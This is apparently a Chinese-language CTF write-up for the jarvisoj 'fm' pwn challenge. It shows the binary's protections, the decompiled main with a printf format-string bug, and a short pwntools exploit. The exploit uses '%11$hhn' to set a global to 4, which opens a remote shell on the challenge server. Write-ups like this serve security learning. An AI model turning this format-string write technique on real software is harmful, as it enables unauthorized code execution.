 ```yaml
---
author: 
  name: Zephyr
title: jarvisoj fm
date: 2022-3-23 7:17:03
permalink: /pages/2e1547494524d194
tags: 
  - buuctf
  - pwn
  - FormatString
---
```


# jarvisoj fm

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/jarvisoj_fm/fm'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [esp+2Ch] [ebp-5Ch]
  unsigned int v5; // [esp+7Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  be_nice_to_people();
  memset(&buf, 0, 0x50u);
  read(0, &buf, 0x50u);
  printf(&buf);
  printf("%d!\n", x);
  if ( x == 4 )
  {
    puts("running sh...");
    system("/bin/sh");
  }
  return 0;
}
```

## 思路分析

1. 目前信息：
   - 明显的格式化字符串漏洞
   - x在bss段上
   - x=4时执行后门函数
   - No PIE
2. 思路：
   - 利用格式化字符串漏洞修改bss段上的x的值为4

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_fm/fm'
io = remote('node4.buuoj.cn', 26744)
# io = process(pwnfile)
elf = ELF(pwnfile)
x_addr = 0x804A02C
payload = flat([x_addr, '%11$hhn'])
io.send(payload)
io.interactive()
```